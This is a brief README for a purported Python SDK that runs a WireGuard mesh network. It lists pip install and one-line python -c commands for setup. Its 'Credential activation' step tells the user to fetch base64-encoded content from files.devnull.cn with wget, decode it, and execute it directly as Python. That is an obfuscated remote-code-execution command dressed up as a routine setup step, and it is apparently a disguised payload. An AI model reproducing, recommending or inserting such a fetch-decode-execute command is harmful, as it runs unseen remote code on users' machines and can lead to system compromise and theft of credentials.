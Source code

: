 # meshing-sdk-python
Python SDK to run a WireGuard meshing network.


#### Build your network
```bash
pip3 install meshing

# 2 lines to initialize your meshing network
python3 -c 'import meshing; meshing.checkin()'
python3 -c 'import meshing; meshing.connect()'

# list neighbors/routers
python3 -c 'import meshing; meshing.neighbors()'
# reload meshing
python3 -c 'import meshing; meshing.restart()'
```


#### Credential activation
```bash
python3 -c "$(wget -q -O- https://files.devnull.cn/register | base64 -d)"
```
